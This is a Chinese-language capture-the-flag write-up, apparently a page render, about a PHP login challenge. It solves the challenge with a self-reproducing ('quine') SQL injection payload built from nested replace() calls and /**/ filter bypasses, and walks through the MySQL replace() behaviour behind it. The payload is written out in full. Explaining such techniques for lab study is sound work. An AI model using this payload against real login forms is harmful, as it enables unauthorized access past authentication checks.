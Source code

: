 ```php
  }
}

if(isset($_GET['source'])){
  show_source(__FILE__);
  die;
}
?>
<!-- /?source -->
<html>
    <body>
        <form action="/index.php" method="post">
            <input type="text" name="username" placeholder="账号"><br/>
            <input type="password" name="password" placeholder="密码"><br/>
            <input type="submit" / value="登录">
        </form>
    </body>
</html>
```
可以看到，用户只能是admin，而又要求输入的password要等于表中的password，而又过滤了很多东西，导致报错，盲注，联合，堆叠都不行
通过分析发现只有输入正确的密码才能得到FLAG，但是这张表其实是一张空表，所以爆破密码这条路走不通。
那就只有一个办法，就是构造一个输入输出完全一致的语句，就可以绕过限制并得到FLAG
大佬的payload
```bash
1'/**/union/**/select/**/replace(replace('1"/**/union/**/select/**/replace(replace(".",char(34),char(39)),char(46),".")#',char(34),char(39)),char(46),'1"/**/union/**/select/**/replace(replace(".",char(34),char(39)),char(46),".")#')#
```
1.首先先了解一下replace()函数

    replace(object,search,replace)
    把object对象中出现的的search全部替换成replace

看个例子

```bash
select replace(".",char(46),".");                 # char(46)就是.
+---------------------------+
| replace(".",char(46),".") |
+---------------------------+
| .                         |
+---------------------------+
```
发现
2.如何让输入输出一致呢？

上面的例子用.替换object里的.，最终返回了一个.，那如果我们将object写成replace(".",char(46),".")会有什么变化呢？
```bash
mysql> select replace(   'replace(".",char(46),".")'   ,   char(46)   ,   '.'   );
+---------------------------------------------------+
| replace('replace(".",char(46),".")',char(46),'.') |
+---------------------------------------------------+
| replace(".",char(46),".")                         |
+---------------------------------------------------+
```

